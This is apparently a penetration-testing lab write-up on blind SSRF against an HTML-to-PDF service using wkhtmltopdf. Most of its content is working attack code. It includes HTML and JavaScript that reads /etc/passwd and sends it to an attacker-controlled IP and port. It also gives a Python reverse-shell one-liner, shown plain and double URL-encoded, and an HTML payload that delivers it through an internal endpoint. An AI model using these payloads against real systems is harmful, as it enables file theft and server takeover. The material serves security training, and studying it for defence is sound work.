 ![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/db997a45-98bb-4205-9da5-5dd6ef654b87)


If we upload various HTML files and inspect the responses, we will notice that the application returns the same response 
regardless of the structure and content of the submitted files. In addition, 
we cannot observe any response related to the processing of the submitted HTML
file on the front end. Should we conclude that the application is not vulnerable to SSRF? 
Of course not! We should be thorough during penetration tests and look for the blind counterparts of different vulnerability classes

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/846d0f12-2ee4-4731-a640-94f1d78edf3f)


Let us create an HTML file containing a link to a service under our control to test 
if the application is vulnerable to a blind SSRF vulnerability. 
```bash
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```
In this case it will be our IP and netcat listener port.
After sending file we receive this:
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/60752885-42cc-46b4-b1cd-e76decf48b59)

Confirming SSRF vulnerability, By inspecting the request, we notice wkhtmltopdf in the User-Agent. 
If we browse wkhtmltopdf's downloads webpage,
the below statement catches our attention:

Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, 
it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.

Great, we can execute JavaScript in wkhtmltopdf! 
Let us leverage this functionality to read a local file by creating the following HTML document.
```bash
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://IP:PORT/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```
We will recieve response in base64 format:
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/06f3f7df-8d28-49af-a31c-c347da213c3b)

## Bash shell
We need this main code:

`export RHOST="NC_IP";export RPORT="PORT";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

Then we have to double URL encude it will like this:

`export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527`

Then we will copy and paste payload to main html code:
```bash
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=PAYLOAD", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```

